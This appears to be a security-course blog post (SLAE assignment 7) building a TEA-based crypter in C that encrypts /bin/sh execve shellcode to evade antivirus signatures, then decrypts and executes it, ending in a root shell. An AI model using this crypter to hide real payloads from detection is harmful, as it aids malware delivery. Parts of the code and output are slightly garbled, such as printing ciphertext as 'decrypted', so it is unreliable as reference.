 ```yaml
---
layout: post
title:  "SLAE Assignment 7 - Custom crypter"
date:   2017-04-30
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 7:  
    
**Our Goal:**  
> *Create a custom crypter*
 - *Free to use any existing encryption schema*
 - *Can use any programming language*  
  
Hello everybody,  
  
In this last assignment we will aim at creating a shellcode crypter. The crypter program will cipher our shellcode in order to defeat any reverse-engineering analysis and to bypass fingerprint/signature based anti-virus detection.  
  
A quick search for a simple encryption algorithm leads to the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm):  
*'In cryptography, the Tiny Encryption Algorithm (TEA) is a block cipher notable for its simplicity of description and implementation, typically a few lines of code.'*  
  
![image]({{ site.url }}/public/images/slae/assignment7/image.png)  
  
If you want to read more about the Tiny Encryption Algorithm and its implementation and weaknesses nowadays, here is a [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

For this assignment we will use the [execve-stack.nasm](https://github.com/phackt/slae/tree/master/assignment7/execve-stack.nasm) shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Now let's create our C crypter [tea_crypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_crypter.c):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Let's compile and run our TEA crypter:  
```bash
# gcc -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Now let's decrypt and execute this shellcode ([tea_decrypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_decrypter.c)):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80";	

	char buffer[512];
	char key[16] = "iloveshellcodess";
	
	strcpy(buffer, shellcode);
	decodestr(buffer, key);
	
	printf("Decrypted shellcode:\n");
	for (int i=0;i<strlen(shellcode);i++)
	{
		printf("\\x%02x", (unsigned char)(int)shellcode[i]);
	}

	// we are executing the shellcode once it has been decrypted
	printf("\nRunning shellcode...\n");
	int (*ret)() = (int(*)())buffer;
	ret();
	
	return 0;
}
```
  
Then:  
```bash
# gcc -o tea_crypter tea_crypter.c && chmod u+x ./tegcc -o tea_decrypter tea_decrypter.c && chmod u+x ./tea_decrypter && ./tea_decrypter
Decrypted shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
Running shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
Perfect, so our shellcode has been well decrypted and executed. Remember that TEA has some weaknesses, you may use another algorithm if you need strong encryption (AES, RSA, Blowfish, Twofish, ...).  Also avoid simple XOR encryption because the xoring key can be guessed thanks to a tool like [xortool](https://github.com/hellman/xortool).  
  
So it was our last assignment for the exam of the  [http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  course.  
Thanks again to Vivek and its team for their work.  
  
Hope to see you soon,
  
[Phackt](https://twitter.com/phackt_ul)
